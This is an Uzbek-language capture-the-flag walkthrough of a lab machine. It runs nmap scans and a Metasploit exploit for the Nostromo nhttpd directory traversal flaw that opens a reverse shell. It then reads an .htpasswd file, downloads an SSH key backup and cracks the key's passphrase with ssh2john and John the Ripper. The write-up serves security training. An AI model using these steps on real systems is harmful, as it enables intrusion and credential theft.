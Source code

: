 **Reconnaissance**  
`nmap -sV 10.129.1.193`  

![image](https://github.com/user-attachments/assets/d4b5a5f1-cc1f-49e9-a43c-cc3fa038a1cf)  

Port 80 ochiq bo‘lgani uchun brauzer orqali 10.129.1.193 IP-manzilini tekshirib chiqamiz, ammo foydali narsani topa olmaymiz.  

![image](https://github.com/user-attachments/assets/e0ffbe0d-c885-42ba-95b9-7b9182b5ea06)  

**Exploitation**  
Zaiflikdan foydalanish uchun Metasploit Framework dan foydalanamiz. Biz `Nostromo <= 1.9.6` versiyasidagi masofadan kod bajarish (RCE) zaifligini ekspluatatsiya qiluvchi modulni topdik. Ushbu muammo nostromo nhttpd ning `http_verify` funksiyasidagi directory traversal tufayli yuzaga keladi, bu esa tajovuzkorga maxsus yaratilgan HTTP so‘rovi orqali masofadan kod bajarishga imkon beradi.  

```
use exploit/multi/http/nostromo_code_exec
set rhosts 10.129.1.193
set lhost 10.10.14.52
exploit
```  
![image](https://github.com/user-attachments/assets/a4b19893-685d-42e9-8ffe-0ec6c7e25445)

Agar siz birinchi bo‘lib zaiflikdan foydalangan bo‘lsangiz, Metasploit’da `1-ID` bilan sessiya ochiladi. Uni meterpreter ga o‘tkazish uchun `sessions -u 1` buyrug‘idan foydalanasiz. Keyin, yangi meterpreter sessiyasiga ulanish uchun `sessions 2` buyrug‘ini kiritasiz.  

```
sessions -u 1
sessions 2
```  

Ushbu buyruqlar yordamida biz meterpreter shell olamiz. Keyin `/var` katalogiga o‘tib, undagi fayllarni tekshiramiz. Bu yerda `nostromo` katalogi mavjud.  
```
cd /var
ls
cd nostromo
ls
```  
![image](https://github.com/user-attachments/assets/5a112b8e-f427-42f0-9f4f-02c7ea3a6df5)   

`.htpasswd` faylini ko‘rib, `David` foydalanuvchisi va uning xeshlangan paroli ni topamiz.
Keyin Davidning `home` katalogiga o‘tib, `protected-file-area` nomli qiziqarli katalogni topamiz. Ushbu katalogda `backup-ssh-identify-files.tgz` arxivi bor. Uni yuklab olamiz.  
```
cd conf
ls
cat .htpasswd
cat nhttpd.conf
```   
![image](https://github.com/user-attachments/assets/35f759a8-b731-4bb0-97df-899e0f2bed94)   

```
cd /home/david/public_www
ls
```

```
cd protected-file-area
ls
download backup-ssh-identify-files.tgz
```

![image](https://github.com/user-attachments/assets/0e9e53aa-190c-4d33-87bd-b8a4108db0da)   

Arxivni ochib, SSH kalit ni topamiz va unga ruxsat beramiz:  
```
tar xzvf backup-ssh-identify-files.tgz
cd home/david/.ssh
ls
chmod 600 id_rsa
```

SSH kalit bilan tizimga ulanishga harakat qilamiz:   
```
ssh -i id_rsa david@10.129.1.193
```
![image](https://github.com/user-attachments/assets/46748755-fd7f-4948-88fb-c66bedcc3c86)  

Parol so‘raydi, shuning uchun ssh2john yordamida kalitni xeshga o‘giramiz va JohnTheRipper bilan xeshni buzamiz:  

```
locate ssh2john
/usr/share/john/ssh2john.py id_rsa > sshhash
```  

```
john --wordlist=/usr/share/wordlists/rockyou.txt sshash
```  

![image](https://github.com/user-attachments/assets/b80e1f45-7ac7-4ddb-a21e-afbaca7653de)   
